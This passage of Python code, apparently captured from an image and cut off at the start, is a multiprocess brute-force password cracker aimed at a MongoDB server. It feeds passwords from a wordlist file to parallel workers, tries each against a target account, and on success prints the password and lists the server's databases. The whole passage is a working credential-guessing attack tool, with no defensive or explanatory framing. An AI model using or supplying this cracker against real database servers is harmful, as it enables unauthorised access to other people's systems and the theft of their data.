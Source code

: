 ```python
                        TARGET,
                        username=USERNAME,
                        password=password,
                        authSource=DATABASE,
                        port=PORT
                )
            except OperationFailure as exception:
                print(exception)
            else:
                try:
                    databases = client.database_names()
                except OperationFailure as exception:
                    if exception.code == 18:
                        # authentication failed, kept for improvements
                        pass
                    else:
                        print("Authentication succeed with password", password)
                        print("but got the following exception:")
                        print(exception)
                        print('')
                        success_event.set()
                else:
                    print("Authentication succeed with password", password)
                    print("Databases:", ", ".join(databases))
                    success_event.set()

        if success_event.is_set():
            print("Process {} is leaving (success)".format(name))
            break

q = Queue()
finished_event = Event()
found_event = Event()
processes = []

print("Lauching {} cracking processes".format(PROCESS_COUNT))
for i in range(PROCESS_COUNT):
    p = Process(target=test_password, args=(q, finished_event, found_event, i))
    p.start()
    processes.append(p)

with open(sys.argv[1], errors="ignore") as fd:
    for line in fd:
        password = line.strip()
        q.put(password)
        if found_event.is_set():
            break
    finished_event.set()

for p in processes:
    p.join()
```
